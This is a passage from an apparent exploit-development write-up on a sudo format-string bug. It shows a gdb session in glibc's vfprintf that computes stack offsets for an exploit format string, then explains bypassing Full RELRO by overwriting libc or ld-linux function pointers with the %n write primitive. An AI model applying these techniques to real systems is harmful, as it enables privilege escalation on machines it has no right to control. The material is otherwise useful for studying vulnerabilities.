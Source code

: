 #12 0x40002890 in main (argc=0x2, argv=0xbff42df4, envp=0xbff42e00) at ./sudo.c:203

gdb$ list vfprintf.c:1688
1683	    /* Fill in the types of all the arguments.  */
1684	    for (cnt = 0; cnt &lt; nspecs; ++cnt)
1685	      {
1686		/* If the width is determined by an argument this is an int.  */
1687		if (specs[cnt].width_arg != -1)
1688		  args_type[specs[cnt].width_arg] = PA_INT;
1689
1690		/* If the precision is determined by an argument this is an int.  */
1691		if (specs[cnt].prec_arg != -1)
1692		  args_type[specs[cnt].prec_arg] = PA_INT;
gdb$ break vfprintf.c:1688
Breakpoint 1 at 0x400d1c5b: file vfprintf.c, line 1688.

gdb$ run
process 2157 is executing new program: /usr/bin/sudo
   0x400d1c53 &lt;_IO_vfprintf_internal+4531&gt;:	mov    eax,DWORD PTR [edi+0x20]
   0x400d1c56 &lt;_IO_vfprintf_internal+4534&gt;:	cmp    eax,0xffffffff
   0x400d1c59 &lt;_IO_vfprintf_internal+4537&gt;:	je     0x400d1c68 &lt;_IO_vfprintf_internal+4552&gt;
=&gt; 0x400d1c5b &lt;_IO_vfprintf_internal+4539&gt;:	mov    edx,DWORD PTR [ebp-0x484]
   0x400d1c61 &lt;_IO_vfprintf_internal+4545&gt;:	mov    DWORD PTR [edx+eax*4],0x0
   0x400d1c68 &lt;_IO_vfprintf_internal+4552&gt;:	mov    eax,DWORD PTR [edi+0x1c]
   0x400d1c6b &lt;_IO_vfprintf_internal+4555&gt;:	cmp    eax,0xffffffff
   0x400d1c6e &lt;_IO_vfprintf_internal+4558&gt;:	je     0x400d1c7d &lt;_IO_vfprintf_internal+4573&gt;

Breakpoint 1, _IO_vfprintf_internal (s=0xbfe48748, format=&lt;optimized out&gt;, ap=0xbfe48e28  &lt;incomplete sequence 340&gt;) at vfprintf.c:1688
1688		  args_type[specs[cnt].width_arg] = PA_INT;

gdb$ p &s-&gt;_flags2
$1 = (_IO_FILE **) 0xbf845310
gdb$ p/d (char*)&s-&gt;_flags2 - *(int)($ebp-0x484)
$2 = 11396

gdb$ p &nargs
$3 = (size_t *) 0xbf844e74
gdb$ p/d (char*)&nargs - *(int)($ebp-0x484)
$4 = 1924
</pre>

*s->_flags2* and *nargs* is on stack with fixed relative offsets to current stack pointer, so we can adjust offsets according to relative stack addresses to fulfill #2 & #3. Let do this again and calculate correct values when we have final format string for the exploit.

### Bypassing Full RELRO

We can now use &#8220;%n&#8221; primitive to write anywhere with any value, but where to write to? sudo binary is compiled with Full RELRO, this means we cannot write to GOT entry or dynamic->.fini to redirect the execution as they are read-only. The idea here is simple: we try to overwrite function pointer in libc or ld-linux and hope it will be called later in program to trigger redirection. This works smoothly with sudo case.


 [1]: http://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables